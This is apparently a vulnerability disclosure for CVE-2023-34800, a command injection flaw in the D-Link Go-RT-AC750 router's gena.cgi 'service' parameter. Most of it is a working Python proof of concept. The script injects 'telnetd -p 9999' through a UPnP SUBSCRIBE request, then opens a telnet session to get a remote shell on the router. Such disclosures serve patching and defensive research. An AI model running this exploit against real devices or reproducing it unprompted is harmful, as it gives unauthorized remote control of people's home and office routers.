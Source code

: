 # Go-RT-AC750 Command Injection Vulnerability

## General Information

CVE: CVE-2023-34800

Vendor: D-Link

Affected Product: Go-RT-AC750

Firmware version: revA_v101b03

Vendor Homepage: https://www.dlink.com/en/consumer

## Vulnerability description

D-Link Go-RT-AC750 revA_v101b03 was discovered to contain a command injection vulnerability via the service parameter at genacgi_main.

## PoC

```python
from socket import *
from os import *
from time import *

request = b"SUBSCRIBE /gena.cgi?service=`telnetd -p 9999` HTTP/1.1\r\n"
request += b"Host: 192.168.0.1:49152\r\n"
request += b"NT: upnp:event\r\n"
request += b"Callback: <http://192.168.0.1/>\r\n"
request += b"Timeout: Second-1800\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(10)
system('telnet 192.168.0.1 9999')
```

![image-20230531134402664](https://raw.githubusercontent.com/Tyaoo/PicBed/master/img/202305311344919.png)
